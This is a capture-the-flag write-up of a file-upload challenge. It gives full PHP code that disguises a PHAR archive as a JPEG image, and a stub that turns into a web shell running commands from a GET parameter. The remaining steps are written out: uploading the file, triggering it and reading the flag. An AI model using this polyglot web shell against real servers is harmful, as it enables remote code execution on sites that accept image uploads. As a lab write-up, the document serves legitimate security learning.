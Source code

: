 ```yaml
---
layout: default
title: File-upload-Polyglot
---
```


In this challenge we need to upload `jpg` file which is also a valid `phar` file, and then we can get `RCE` using the `stub` in the `phar` archive.

We can't just change the file extension, or add some comment, because we need both `phar` valid file and `jpg` file, and this is where i find this paper, [disguise phar packages as images](https://www.nc-lp.com/blog/disguise-phar-packages-as-images).

Here we can see its code, we modify it by a bit and got this code:
```php
<?php

$jpeg_header_size = 
"\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00\xff\xfe\x00\x13".
"\x43\x72\x65\x61\x74\x65\x64\x20\x77\x69\x74\x68\x20\x47\x49\x4d\x50\xff\xdb\x00\x43\x00\x03\x02".
"\x02\x03\x02\x02\x03\x03\x03\x03\x04\x03\x03\x04\x05\x08\x05\x05\x04\x04\x05\x0a\x07\x07\x06\x08\x0c\x0a\x0c\x0c\x0b\x0a\x0b\x0b\x0d\x0e\x12\x10\x0d\x0e\x11\x0e\x0b\x0b\x10\x16\x10\x11\x13\x14\x15\x15".
"\x15\x0c\x0f\x17\x18\x16\x14\x18\x12\x14\x15\x14\xff\xdb\x00\x43\x01\x03\x04\x04\x05\x04\x05\x09\x05\x05\x09\x14\x0d\x0b\x0d\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14".
"\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\xff\xc2\x00\x11\x08\x00\x0a\x00\x0a\x03\x01\x11\x00\x02\x11\x01\x03\x11\x01".
"\xff\xc4\x00\x15\x00\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x08\xff\xc4\x00\x14\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xda\x00\x0c\x03".
"\x01\x00\x02\x10\x03\x10\x00\x00\x01\x95\x00\x07\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x05\x02\x1f\xff\xc4\x00\x14\x11".
"\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20".
"\xff\xda\x00\x08\x01\x02\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x06\x3f\x02\x1f\xff\xc4\x00\x14\x10\x01".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x21\x1f\xff\xda\x00\x0c\x03\x01\x00\x02\x00\x03\x00\x00\x00\x10\x92\x4f\xff\xc4\x00\x14\x11\x01\x00".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda".
"\x00\x08\x01\x02\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x10\x1f\xff\xd9";

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->addFromString("test.txt","test");
$phar->setStub($jpeg_header_size."<?php phpinfo(); __HALT_COMPILER(); ?>");
$phar->stopBuffering();
?>
```

After executing this, we get a the file `phar.phar`.
We change the extension to `jpg`:
```bash
mv phar.phar phar.jpg
```

As you can see, the polygot is working!

![working polygot](./images/File-upload-Polyglot_working_polygot.png)

Now, let's try to upload this `phar.jpg` to the server, and access it via admin page.

We get the random name: `phpZUq7LP.jpg`, so this would be the payload we give to the admin page:
```
uploads/phpZUq7LP.jpg
```
![RCE working](./images/File-upload-Polyglot_RCE_working.png)

Now, let's upload our webshell:
```php
$phar->setStub($jpeg_header_size."<?php system(\$_GET['cmd']); __HALT_COMPILER(); ?>");
```

Okay, we give this `GET` parameter, I gave the new line to see the results more clear:
```bash
cmd=echo '\n';ls -la;
```
and the response:
```
total 28
drwxrwxrwt 1 www-data www-data 4096 Jul 13  2024 .
drwxr-xr-x 1 root     root     4096 Nov 21  2023 ..
-rw-r--r-- 1 root     root       19 Dec 10  2021 flag-juygaz36YyTFyT6R.txt
-rw-r--r-- 1 root     root     2774 Mar 22  2022 index.php
drwxrwsrwx 1 root     root     4096 Aug 19 18:14 uploads
```

![ls](./images/File-upload-Polyglot_ls.png)


Let's read `flag-juygaz36YyTFyT6R.txt`, I'm using base64 because it doesn't display the content:
```
cmd=echo '\n';cat flag.txt | base64 -w 0;
```
And we get back:
```
Tm93WW91QXJlQmlsaW5ndWFsIQ==
```
which after decoding gives us:
```
NowYouAreBilingual!
```

![FINAL](./images/File-upload-Polyglot_FINAL.png)


**Flag:** ***`NowYouAreBilingual!`***
